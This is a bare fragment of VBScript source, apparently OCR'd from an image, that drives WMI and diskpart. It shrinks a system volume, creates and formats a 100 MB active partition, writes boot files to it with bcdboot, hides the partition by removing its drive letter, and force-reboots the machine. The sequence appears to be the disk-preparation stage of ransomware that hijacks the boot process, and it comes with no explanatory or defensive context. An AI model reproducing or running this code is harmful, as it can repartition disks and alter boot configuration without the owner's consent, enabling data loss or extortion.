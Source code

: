 ```vbscript
					Set colLogicalDisks = objWMIService.ExecQuery("SELECT * FROM Win32_LogicalDiskToPartition WHERE Antecedent='Win32_DiskPartition.DeviceID=""" & strPartitionDeviceID & """'")
					For Each objDisk In colLogicalDisks
						Set colLogicalDisks2 = objWMIService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DeviceID='" & Replace(Mid(objDisk.Dependent, InStr(objDisk.Dependent, """") + 1), """", "") & "'")
						For Each objLogicalDisk In colLogicalDisks2
							strDriveLetter = objLogicalDisk.DeviceID
							set shrinkdisk = CreateObject("WScript.Shell").Exec("diskpart")
							shrinkdisk.StdIn.WriteLine("Select Volume " & strDriveLetter & vbCrLf)
							shrinkdisk.StdIn.WriteLine("shrink desired=100" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("exit" & vbCrLf)
							WScript.Sleep(5000)
							If InStr(1, shrinkdisk.stdout.readall , "100", vbTextCompare) > 0 then
							set shrinkdisk = CreateObject("WScript.Shell").Exec("diskpart")
							shrinkdisk.StdIn.WriteLine("Select Volume " & strDriveLetter & vbCrLf)
							shrinkdisk.StdIn.WriteLine("create partition primary size=100" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("format quick recommended override" & vbCrLf)
							WScript.Sleep(5000)
							shrinkdisk.StdIn.WriteLine("assign" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("active" & vbCrLf)
							shrinkdisk.StdIn.WriteLine("exit" & vbCrLf)
							If InStr(1, shrinkdisk.stdout.readall , "100", vbTextCompare) > 0 then
								shrinkcomplate = "ok"
							Else
							End If
							Else
							Exit for
							End If
						Next
					Next
				if shrinkcomplate = "ok" then
				Exit For
				End if
				Next
				Set colLogicalDisksAfter = objWMIService.ExecQuery("SELECT * FROM Win32_LogicalDisk WHERE DriveType = 3")
						For Each objDiskAfter In colLogicalDisksAfter
							Dim driveExists1: driveExists1 = False
							For Each objDiskBefore In colLogicalDisksBefore
								If objDiskAfter.DeviceID = objDiskBefore.DeviceID Then
									driveExists1 = True
									Exit For
								End If
							Next
							If Not driveExists1 Then
								strDriveLetter = objDiskAfter.DeviceID
								Exit For
							End If
						Next
						If Len((CreateObject("WScript.Shell").Exec("bcdboot " & Driveletters & "\windows /s " & strDriveLetter)).stdout.readall) > 0 Then: End If
				set remove = CreateObject("WScript.Shell").Exec("diskpart")
				remove.StdIn.WriteLine("Select Volume " & strDriveLetter & vbCrLf)
				remove.StdIn.WriteLine("remove" & vbCrLf)
				remove.StdIn.WriteLine("exit" & vbCrLf)
				If Len(remove.stdout.readall) > 0 then
				For Each Os in GetObject("winmgmts:").ExecQuery("SELECT * FROM Win32_OperatingSystem"): os.Win32Shutdown(6): Next
				WScript.Sleep 6000000
				end if
```